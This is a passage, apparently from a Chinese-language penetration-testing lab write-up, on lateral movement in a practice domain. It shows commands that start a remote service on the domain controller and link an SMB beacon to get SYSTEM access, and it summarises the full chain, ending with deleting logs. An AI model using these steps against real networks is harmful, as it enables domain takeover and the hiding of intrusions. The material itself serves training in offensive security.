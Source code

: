 开启服务：

```
shell sc \\owa.god.org start test1
```

![截图](25a18209a458381513d470dff1850b99.png)

### 5.木马走SMB流量

连接目标机器（必须主动连接)：

```
link owa.god.org
```

![截图](005d7233b7adf815fa3bfac51cbd8e74.png)

目标主机上线，system权限

![截图](2bb3cde0cbd45279c051ffa0282e2ac8.png)

### 流程梳理：

黑客通过cs把木马传入web服务器->web服务器通过IPC传给域控->通过IPC创建服务，服务运行带动木马运行->木马走SMB流量（经过web服务器传给黑客，黑客就可以通过这条路把里面的域控控制）->最后，删日志（内网渗透拿下域控就结束了）